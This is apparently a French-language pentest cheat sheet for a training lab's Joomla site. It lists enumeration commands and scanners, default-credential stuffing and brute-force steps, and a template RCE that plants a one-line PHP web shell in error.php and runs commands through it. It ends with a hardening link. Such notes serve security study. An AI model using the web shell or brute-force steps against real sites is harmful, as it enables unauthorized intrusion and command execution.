 

- [ ] [[#ENUMERATION MANUELLE]]
- [ ] [[#ENUMERATION DROOPESCAN]]
- [ ] [[#EXPLOITATION]]
- [ ] [[#HARDENING]]

# ENUMERATION MANUELLE

[[#Identifier Joomla]]
[[#Version Joomla]]

/robots.txt
/sitemap.xml

## Identifier Joomla

```shell
curl -s http://dev.inlanefreight.local/ | grep Joomla
```
## Version Joomla

```shell
curl -s http://dev.inlanefreight.local/README.txt | head -n 5
```

```shell
curl -s http://dev.inlanefreight.local/administrator/manifests/files/joomla.xml | xmllint --format -
```

```shell
curl -s http://dev.inlanefreight.local/plugins/system/cache/cache.xml | xmllint --format -
```

voir dans fichiers javascripts egalement ->  media/system/js/

---

# ENUMERATION #DROOPESCAN

```shell
sudo pip3 install droopescan --break-system-packages
```

```shell
sudo droopescan scan joomla --url http://dev.inlanefreight.local/
```

---
# ENUMERATION #JOOMSCAN

```BASH
joomscan --ec -u <URL>
```

---
# ENUMERATION #CMSMAP

```bash
cmsmap [-f W] -F -d <URL>
```

---

# ENUMERATION #VULNX 


```bash
vulnx -u <url> --cms-info all --web-info --domain-info
```



---

# EXPLOITATION


## Tester Weak credentials / Credential stuffing

admin:admin, admin:password....
### Credential Stuffing (Liste de default creds)

Resources:

https://www.cirt.net/passwords
https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials
https://github.com/scadastrangelove/SCADAPASS/blob/master/scadapass.csv
https://github.com/ihebski/DefaultCreds-cheat-sheet/tree/main


## Bruteforce de login

https://github.com/ajnik/joomla-bruteforce/blob/master/joomla-brute.py

```shell
sudo python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
```


## Plugins / Themes / Joomla Vulnerables

Chercher CVEs et tester

## RCE Templates


System > Control Panel > Templates > Templates > Details and Files > error.php

```php
<?php system($_REQUEST['cmd']); ?>
```

```shell
curl -s http://dev.inlanefreight.local/templates/protostar/error.php?cmd=id
```


---

# HARDENING


https://docs.joomla.org/Security_Checklist/Joomla!_Setup